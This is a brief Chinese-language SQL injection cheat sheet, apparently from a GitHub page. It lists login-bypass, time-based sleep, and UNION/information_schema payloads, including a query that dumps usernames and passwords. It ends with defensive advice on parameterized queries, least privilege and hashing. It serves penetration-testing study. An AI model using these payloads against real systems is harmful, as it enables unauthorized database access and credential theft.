 # Sql注入 (Sql Injection)


## Sql Injection 渗透测试

1、登录框（一般不存在）
```
admin'-- -
' or 1=1 #
```

2、模糊查询输入框（因多条件，开发很容易使用动态拼接sql来组装查询语句）
```
%') and sleep(1);-- -
%') and sleep(1); #
```

3、URL表达式(?id=123)
```
' or '1' = 1'
可以更进一步猜表名
'or 1=(select count(*) from job) #
```

4、在列表页面可以爆表（通过联合查询回显）
```
union select table_name from information_schema.tables
```

同理可爆字段、数据库用户信息

常用渗透语句
```
select schema_name from information_schema.schemata
select column_name from information_schema.columns where table_name='users'
select group_concat(username,':',password) from users
```

`sleep(1)`也就是每条记录sleep1秒


## Sql Injection 注意事项

1. 永远不要使用动态拼装sql，可以使用参数化的sql
2. 永远不要使用管理员权限的数据库连接，为每个应用使用单独的权限有限的数据库连接
3. 不要把机密信息直接存放，加密或者hash掉密码和敏感的信息
